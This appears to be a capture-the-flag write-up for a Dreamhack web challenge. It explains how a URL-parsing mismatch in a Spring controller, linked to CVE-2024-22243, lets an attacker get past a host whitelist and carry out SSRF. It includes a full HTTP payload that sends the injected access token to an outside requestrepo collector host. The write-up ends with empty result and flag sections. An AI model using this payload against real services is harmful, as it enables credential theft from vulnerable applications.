


## recon
To obtain the flag , we need to make a request to the `/api/flag` with a valid `access_token`. The `/request` endpoint automatically retrieves `access_token` from  a environment variable and injects it into request.

```java
    @GetMapping("/flag")
    public ResponseEntity<Map<String, String>> getFlag(@RequestHeader(value="Access-Token", required=true) String accessToken){
        Map<String, String> response = new HashMap<>();
        if (accessToken == null || accessToken.isEmpty()){
            response.put("result", "fail");
            response.put("message", "Unauthorized");
            return ResponseEntity.status(403).body(response);
        }
        if (!accessToken.equals("[**REDACTED**]")){
            System.out.println(accessToken);
            response.put("result", "fail");
            response.put("message", "Access token is not Valid");
            return ResponseEntity.status(400).body(response);
        }
        response.put("result", "success");
        response.put("message", flag);
        return ResponseEntity.ok(response);
    }
```

in the `ApiTestController` contains a vulnerable code snippet.
```java
String parsed_host = UriComponentsBuilder.fromHttpUrl(URLDecoder.decode(url)).build().getHost(); # THIS
        System.out.println(parsed_host);
        if (Arrays.asList(ALLOWED_HOSTS).contains(parsed_host)) {

            try {
                String[] cmd = {"curl", "-H", "Access-Token: " + accessToken, "-s", url}; # THIS
                Process p = Runtime.getRuntime().exec(cmd);
                .............
            }
        }
```
the code snippet suffers a inconsistent URL parse issuse. this allows attacker to bypass the whiteliss check and trigger SSRF.

after some research , i found the CVE-2024-22243 , which related the `UriComponentsBuilder.fromHttpUrl()`.[DETAIL](https://github.com/SeanPesce/CVE-2024-22243)

whitelist: `localhost , 127.0.0.1`.


the target check `DH` in response therefore we can not read the flag directly. Our objective is to leak a `access_token`
## exploit

payload:
```
POST /request HTTP/1.1

Host: host3.dreamhack.games:9701

Content-Length: 77

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Connection: keep-alive


scheme=http&userInfo=%2540localhost%255B&host=fo6tfid5.requestrepo.com&path=/
```
in request repo : 


flag:



